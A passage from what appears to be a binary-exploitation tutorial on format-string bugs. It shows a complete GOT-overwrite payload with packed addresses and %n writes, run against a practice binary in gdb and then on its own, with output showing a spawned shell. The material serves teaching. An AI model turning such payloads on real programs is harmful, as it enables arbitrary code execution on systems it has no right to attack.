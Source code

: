 Now, after the first write in GOT, do next write. I can't show you all output, because the format string just places the large empty space between the command and result:
```bash
gef➤  r $(python -c 'print "\x78\xb2\x04\x08" + "\x7a\xb2\x04\x08" + "\x7c\xb2\x04\x08" + "\x7e\xb2\x04\x08" + "%10272u" + "%54$n" + "%53168u" + "%55$n" + "%59856u" + "%56$n" + "%5682u" + "%57$n"')

================
space here
================

0/bin/sh
[Detaching after vfork from child process 7246]
$ w
16:08:13 up 42 min,  1 user,  load average: 0.16, 0.50, 0.50
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
shogun   tty7     :0               15:25   42:37   1:15   1.33s xfce4-session
$
```

Try it outside gdb:
```bash
shogun@kyoto:~/repos/basics-of-pwn/content/format-string$ ./got-overwrite $(python -c 'print "\x78\xb2\x04\x08" + "\x7a\xb2\x04\x08" + "\x7c\xb2\x04\x08" + "\x7e\xb2\x04\x08" + "%10272u" + "%54$n" + "%53168u" + "%55$n" + "%59856u" + "%56$n" + "%5682u" + "%57$n"')
xz|~                                                                                                                                                                                                                   =====
space
=====                                                                                                                                                                     4294955702                                                                                                                                                                                                             =====
space
=====                                                                           200                                                                                                                                                                                                                    =====
space
=====
134517236                                                                                                                                                                                                              
=====
space
=====
0/bin/sh
$
```
Thus, after the puts placed input string in buff2, you call the system function and it executes the command which you input in buff2.
